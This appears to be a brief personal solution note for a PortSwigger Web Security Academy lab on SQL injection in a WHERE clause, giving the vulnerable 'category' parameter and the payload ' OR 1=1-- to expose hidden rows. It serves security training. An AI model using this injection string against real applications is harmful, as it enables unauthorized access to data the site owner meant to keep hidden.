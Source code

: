 ###### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
URL: https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data

Endpoint: category=

Steps:
```
category=' OR 1=1--
```

